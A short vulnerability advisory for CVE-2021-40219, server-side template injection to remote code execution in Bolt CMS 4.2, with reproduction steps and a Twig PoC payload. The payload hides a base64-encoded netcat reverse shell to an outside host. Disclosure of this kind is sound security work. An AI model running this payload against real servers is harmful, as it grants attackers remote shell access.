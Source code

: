 
<h1>CVE-2021-40219</h1>
Bolt CMS SSTI to Remote Code Execution


Reported by S1lv3r

Description :

The vulnerability exists on core/src/Controller/Frontend/TemplateController.php on line 25 that is about
unsave rendering allow an authenticated attacker to abuse it using server-side template injection
vulnerability that lead to remote code execute with bypass array error restriction with "join” filter

https://github.com/bolt/core/blob/3b21a73ebf519b76756d3ad2841312d10ef11461/src/Controller/Frontend/TemplateController.php#L25 

# TemplateController.php line 25:
```return $this->render($templates, []);```

1- The authenticated user edit theme by going to file management -> view/edit themes

2- Inject our PoC payload that will run system command

3- Go to Edit Page then create new page and choose our malicious template

4- Go to RCE-PoC page (using step 3) to trigger execution : http://127.0.0.1/page/RCE-PoC


Version :
BoltCMS Latest Version 4.2 ( GitHub's latest version 8/23/2021 )

Attack Type:
Remote

Impact :
Remote Command Execution


PoC : 

``` python 

{{['echo${IFS}-n${IFS}"bmMgMTAuMC4yLjE1IDQ0MyAtZSAvYmluL2Jhc2g="${IFS}|${IFS}base64${IFS}-
d${IFS}|bash']|filter('system')|join(', ') }}

```
